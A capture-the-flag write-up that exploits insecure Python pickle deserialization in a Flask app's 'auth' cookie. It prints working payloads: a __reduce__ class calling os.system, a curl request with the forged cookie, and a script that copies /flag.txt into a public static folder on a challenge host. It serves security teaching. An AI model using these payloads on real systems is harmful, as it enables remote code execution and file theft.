



<div align="left">


</div>

## Spellbound Servants

<div align="left">

<br>
<br>


</div>

This challenge is great for **understanding Insecure Deserialization vulnerabilities**, focusing on:

- Reviewing backend authentication logic
- Identifying unsafe use of Python `pickle`
- Abusing cookie-based trust boundaries
- Achieving Remote Code Execution via deserialization
- Exfiltrating sensitive files through static file exposure

---

## 🛠 Tools

The following tools and techniques were used during exploitation:

```
Docker          → local testing & environment replication
curl            → manual request crafting with custom cookies
Python          → malicious pickle payload generation
requests        → automated exploitation & flag exfiltration
Flask           → framework behavior analysis
```

---

## 📌 Overview

Spellbound Servants is a **straightforward Flask web application** that exposes pages and APIs for **user registration, login, and an authenticated user dashboard**. A protected page is only accessible to users considered authenticated by the backend.

While the application logic appears simple, reviewing the source code quickly reveals a **critical security flaw**: unsafe use of Python’s `pickle` module for handling authentication data.

This write‑up walks through the vulnerability identification, local proof‑of‑concept testing, and full remote exploitation leading to **Remote Code Execution (RCE)** and **flag extraction**.

---



## 🔍 Vulnerability Identification

A brief examination of the authentication logic immediately suggests an **Insecure Deserialization** vulnerability.

The following function is responsible for authenticating users and returning session data:

### `database.py`

```python
def login_user_db(username, password):
    user = query(
        'SELECT username FROM users WHERE username = %s AND password = %s',
        (username, password,),
        one=True
    )

    if user:
        pickled_data = base64.b64encode(pickle.dumps(user))
        return pickled_data.decode("ascii")
    else:
        return False
```

### Key Observations

- User credentials are validated against the database
- The returned `user` object is serialized using **`pickle.dumps()`**
- The serialized object is **Base64‑encoded** and sent back to the client
- This value is later stored inside a cookie named **`auth`**

Because `pickle` supports arbitrary object reconstruction, **any attacker‑controlled pickle payload can result in code execution during deserialization**.

---

## 🔐 Authentication Flow Breakdown

To understand how the serialized cookie is used, we inspect the authentication decorator.

### `util.py`

```python
def isAuthenticated(f):
    @wraps(f)
    def decorator(*args, **kwargs):
        # Codes omitted for brevity

        try:
            user = pickle.loads(base64.urlsafe_b64decode(token))
            kwargs['user'] = user
            return f(*args, **kwargs)
        except:
            return abort(401, 'Unauthorised access detected!')

    return decorator
```

### Why This Is Dangerous

- The `auth` cookie is **fully trusted**
- The cookie value is:
  1. Base64‑decoded
  2. Directly passed to `pickle.loads()`

- No signature, integrity check, or type validation is performed

➡️ This means **any attacker can forge an `auth` cookie containing a malicious pickle payload**, leading to server‑side code execution when the protected endpoint is accessed.

---

## 🧪 Local Testing – Proof of Concept RCE

Now that the injection point is identified, the next step is validating exploitability locally.

### Environment Setup

The application is launched using the provided Docker setup:

```bash
./build-docker.sh
```

While the container builds, a Python script is created to generate a malicious pickle payload.

---

### Malicious Payload Generation

The payload leverages Python’s `__reduce__()` method to execute an OS command during deserialization.

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        return (os.system, ("touch proof.txt",),)

rce = RCE()
cookie = base64.b64encode(pickle.dumps(rce))
print(cookie.decode())
```

This payload simply creates a file named `proof.txt` as a safe proof of code execution.

---

### Triggering the Payload

The generated payload is sent to the protected endpoint using `curl`:

```bash
curl http://localhost:1337/home \
  -H "Cookie: auth=<payload>"
```

---

### Verification

Inside the running container:

```bash
docker exec -it <container_id> /bin/sh
ls
```



The presence of `proof.txt` confirms:

✅ **Remote Code Execution via Insecure Deserialization**

---

## ⚔️ Exploitation on the Challenge Instance

With RCE confirmed, the focus shifts to extracting the flag from the remote instance.

### Observation

- Flask serves static files from:

```
/app/application/static/
```

### Exploitation Plan

1. Use RCE to copy `/flag.txt` into the static directory
2. Access the flag directly via HTTP

---

## 🚀 Automated Flag Exfiltration

To streamline the attack, a Python script is used to:

- Generate the malicious pickle payload
- Send it using the `auth` cookie
- Retrieve the exposed flag

```python
import pickle
import base64
import os
import requests

class RCE:
    def __reduce__(self):
        return (os.system, ("cp /flag.txt /app/application/static/",),)

rce = RCE()
cookie = base64.b64encode(pickle.dumps(rce))

target = "94.237.54.42:37487"  # challenge instance

requests.get(
    f"http://{target}/home",
    cookies={"auth": cookie.decode()}
)

response = requests.get(f"http://{target}/static/flag.txt")
print(response.text)
```

---

### Result

After executing the script:

- The flag file is copied into the static directory
- The flag becomes publicly accessible
- The flag is retrieved successfully



🎉 **Flag captured**

---

## 🧠 What This Challenge / Lab Teaches

- Identifying **Insecure Deserialization** through source code review
- Understanding why `pickle.loads()` on user-controlled data is dangerous
- Tracing authentication flows and trust boundaries in Flask applications
- Crafting malicious objects using `__reduce__()` for code execution
- Validating vulnerabilities safely through local Docker testing
- Chaining RCE into **flag exfiltration** via static file exposure

This is an excellent challenge for beginners transitioning from **basic web concepts into real-world web exploitation**, especially those preparing for CTFs and practical security exams.

---

## 📌 Conclusion

Simple-looking applications can hide **critical design flaws**.  
In this challenge, a single unsafe decision — trusting serialized data in cookies — led to full Remote Code Execution.

Always remember:

> _Never deserialize data you don’t fully control and verify._

This work is part of **FuzzRaiders’ structured hands-on training and research program**, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability, methodological rigor, and real-world security execution

Happy hacking 🚀

# Author: Z4B0 [LinkedIn](https://www.linkedin.com/in/mahamud-abdirahman-151493375/)
